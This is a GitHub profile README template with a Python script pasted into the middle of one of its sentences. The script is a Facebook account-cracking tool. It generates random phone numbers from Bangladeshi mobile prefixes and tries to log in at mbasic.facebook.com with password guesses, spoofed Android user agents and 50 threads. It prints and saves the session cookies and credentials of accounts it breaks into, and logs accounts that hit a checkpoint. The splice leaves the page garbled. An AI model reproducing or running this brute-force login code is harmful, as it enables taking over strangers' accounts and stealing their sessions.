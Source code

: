 - 👋 Hi, I’m @shovon125
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to# Facebook: Ahmed Shovon 
# Github: Ahmed
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
#####APK#####
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
os.system('xdg-open https://facebook.com/groups/554714119911648/')
logo =("""\033[0;92m
\033[1;32m╔══════════════════════════════════════════════════════════╗\033[1;93m
\033[1;32m║	         \033[1;93m ─━<🌺Assalamu Alaikum🌺>━─\033[1;32m	           ║
\033[1;32m╔══════════════════════════════════════════════════════════╗
\033[1;32m║\033[0;92m:########:'##::::'##:'########:'##::::'##:'##:::::::
\033[1;32m║\033[0;97m... ##..:: ##:::: ##:... ##..:: ##:::: ##: ##:::::::
\033[1;32m║\033[0;91m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;94m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;93m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;95m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\x1b[38;5;208m::: ##::::. #######::::: ##::::. #######:: ########:
\033[1;32m╚══════════════════════════════════════════════════════════╝
\033[1;32m╔══════════════════════════════════╗╔══════════════════════╗
\033[1;32m║NOTE : \033[37;41mTHIS TOOLS IS FREE\033[0;m\033[1;32m         ║║        \x1b[1;91m___T_\033[1;32m         ║
\033[1;33m║══════════════════════════════════║║       \x1b[1;91m| o o |\033[1;32m        ║
\033[1;34m║AUTHOR    : Ahmed Shovon          ║║       \x1b[1;91m|__-__|\033[1;32m        ║
\033[1;35m║══════════════════════════════════║║       \x1b[1;91m/| []|'\033[1;32m        ║
\033[1;36m║WHATSAPP  : 01851645112          ║║     \x1b[1;91m()/|___|\()\033[1;32m      ║
\033[1;37m║══════════════════════════════════║║        \x1b[1;91m|_|_|\033[1;32m         ║
\033[1;38m║GITHUB    : Ahmed             ║║       \x1b[1;91m|_| |_|\033[1;32m        ║
\033[1;39m║══════════════════════════════════║║                      ║
\033[1;31m║SERVER    : DATA :      WORKING   ║╚══════════════════════╝
\033[1;32m║══════════════════════════════════════════════════════════╗
\033[1;34m║══════════════════════════════════════════════════════════║
\033[1;35m║PAGE: \x1b[1;91https://www.facebook.com/Abal.Not.AlLow.Okay.BrotheR\033[1;32m ║
\033[1;36m╚══════════════════════════════════════════════════════════╝\033[1;37m""") 
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' [{xr}^{x}] Example>: {xr}019,017,018,92302,92301,91778{x}')
    print(" ══════════════════════════════════════════")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    rk4 = '017'
    code = random.choice([rk1,rk2,rk3])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {Ahmed} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        jalan('\033[1;97m====================================================')
        jalan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        jalan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        jalan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        jalan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        jalan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        jalan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ══════════════════════════════════════════")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[Tutul-OK💚] \033[1;32m'+uid+'\033[1;32m • \033[1;32m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/Tutul-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;30m[Tutul-CP] ' +uid+ ' • ' +ps+           '  \33[0;97m')
                open('/sdcard/Tutul-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}Tutul{x}][%s\%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
  collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
shovon125/shovon125 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
